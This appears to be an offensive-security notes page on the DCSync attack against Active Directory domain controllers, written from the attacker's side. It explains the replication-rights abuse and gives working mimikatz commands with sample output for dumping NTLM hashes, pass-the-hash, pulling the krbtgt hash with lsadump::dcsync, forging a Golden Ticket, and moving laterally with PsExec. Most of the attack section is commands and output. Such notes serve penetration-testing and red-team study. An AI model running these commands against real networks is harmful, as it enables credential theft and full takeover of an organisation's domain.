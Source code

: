 Domain Controller Synchronization

To read : 
[[MS-DRSR - Directory Replication Service Remote Protocol]]

Source : 
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync
https://www.netwrix.com/privilege_escalation_using_mimikatz_dcsync.html

Adversary simulate the behavior's of a domain controller (DC) and retrieve password data via domain replication.
Use of the protocol [[MS-DRSR - Directory Replication Service Remote Protocol]] to simulate the behavior of a domain controller and ask other domain controllers to replicate information

A domain controller may request an update for a specific object, like an account, with the `IDL_DRSGetNCChanges` API.

Luckily for us, the domain controller receiving a request for an update **does not verify that the request came from a known domain controller**, but **only that the associated SID has appropriate privileges**.

If we attempt to issue a **rogue update request from a user who is a member of the Domain Admins group** to a domain controller , it will succeed.

Can be used to retrieve the KRBTGT hash

### Known permissions to achieve DC Sync 
Administrators, Domain Admins and Enterprise Admins have the rights required to execute a DCSync attack.
- The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354(v=vs.85).aspx)” extended right
    - **CN:** DS-Replication-Get-Changes
    - **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd
- The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355(v=vs.85).aspx)” extended right
    - **CN:** DS-Replication-Get-Changes-All
    - **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
- The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663(v=vs.85).aspx)” extended right (this one isn’t always needed but we can add it just in case :)
    - **CN:** DS-Replication-Get-Changes-In-Filtered-Set
    - **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c

### Attack process
1. The attacker discovers a domain controller to request replication.
2. The attacker requests user replication using the [GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI)
3. The DC returns replication data to the requestor, including password hashes.

## Step of DCSYNC

### Get account with replication permission

Example with pass the hash
```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::msv"
mimikatz # sekurlsa::msv
 
Authentication Id : 0 ; 4018372 (00000000:003d50c4)
Session           : RemoteInteractive from 2
User Name         : PrivUser1
Domain            : Domain
Logon Server      : DC1
Logon Time        : 15/07/2020 20:28:33
SID               : S-1-5-21-5840559-2756745051-1363507867-1105
        msv :
         [00000003] Primary
         * Username : PrivUser1
         * Domain   : Domain
         * NTLM     : eed224b4784bb040aab50b8856fe9f02
         * SHA1     : 42f95dd2a124ceea737c42c06ce7b7cdfbf0ad4b
         * DPAPI    : eb62f5bb2cc136b30a19c1d11b81dc77
 
PS> .\mimikatz.exe "sekurlsa::pth /user:PrivUser1 /ntlm:eed224b4784bb040aab50b8856fe9f02 /domain:domain.com"
 
user    : PrivUser1
domain  : Domain.com
program : cmd.exe
impers. : no
NTLM    : eed224b4784bb040aab50b8856fe9f02
  |  PID  6020
  |  TID  3336
  |  LSA Process is now R/W
  |  LUID 0 ; 14438952 (00000000:00dc5228)
  \_ msv1_0   - data copy @ 0000025C281A86C0 : OK !
  \_ kerberos - data copy @ 0000025C27D08608
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000025C287FF6A8 (32) -> null
```

### Use the account to perform the replication

#### Using DSInternal module


```powershell
Get-ADReplAccount -user Administrator -domain contoso –server dc01
```
#### Using mimikatz

```powershell
PS> .\mimikatz.exe "lsadump::dcsync /user:DOMAIN\krbtgt"
 
[DC] 'domain.com' will be the domain
[DC] 'DC1.DOMAIN.com' will be the DC server
[DC] 'DOMAIN\krbtgt' will be the user account
 
Object RDN           : krbtgt
 
** SAM ACCOUNT **
 
SAM Username         : krbtgt
User Principal Name  : krbtgt@DOMAIN.COM
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 09/03/2020 14:51:03
Object Security ID   : S-1-5-21-5840559-2756745051-1363507867-502
Object Relative ID   : 502
 
Credentials:
  Hash NTLM: 1b8cee51fd49e55e8c9c9004a4acc159
 
# ... output truncated ...
 
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOMAIN.COMkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ffa8bd983a5a03618bdf577c2d79a467265f140ba339b89cc0a9c1bfdb4747f5
      aes128_hmac       (4096) : 471644de05c4834cc6cbc06896210e7d
      des_cbc_md5       (4096) : 23861a94ea83a4cd
 
# ... output truncated ...
```

### Achieve additional objectif

Can made a [[Golden Tickets]] attack

```powershell
PS> .\mimikatz.exe "kerberos::golden /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /krbtgt:1b8cee51fd49e55e8c9c9004a4acc159 /user:Administrator /id:500 /ptt"
 
User      : Administrator
Domain    : domain.com (DOMAIN)
SID       : S-1-5-21-5840559-2756745051-1363507867
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 1b8cee51fd49e55e8c9c9004a4acc159 - rc4_hmac_nt
Lifetime  : 16/07/2020 13:53:58 ; 14/07/2030 13:53:58 ; 14/07/2030 13:53:58
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ domain.com' successfully submitted for current session
 
PS> PSExec.exe \\fileserver1 powershell.exe
 
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
 
 
Microsoft Windows [Version 10.0.17763.1339]
(c) 2018 Microsoft Corporation. All rights reserved.
 
C:\Windows\system32>hostname
fileserver1
```